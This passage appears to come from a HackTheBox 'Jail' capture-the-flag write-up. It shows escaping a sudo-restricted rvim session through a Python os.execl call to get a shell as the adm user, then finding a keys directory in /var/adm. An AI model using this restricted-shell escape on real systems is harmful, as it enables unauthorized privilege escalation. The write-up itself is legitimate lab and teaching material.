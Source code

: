 
We can't run these commands directly because we are restricted to a specific sudo command. But we can try to run them from within the `rvim` interface. 


First, I run the `sudo` command:

```bash
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
```

Which gets me into a very clunky and annoying VIM interface. From which I type the following:

```bash
:py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
```

I hit Enter and it then asks me for a terminal type, I enter `screen` and I get a shell:

![adm-49](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/adm-49.png)


### Adm

Now as the `adm` user, I immediately go to `/var/adm`, and I find the following:

![keys-50](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/keys-50.png)


This is an extremely unusual directory to be placed in `/var/adm`, which reads as such:

![keys-dir-51](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/keys-dir-51.png)
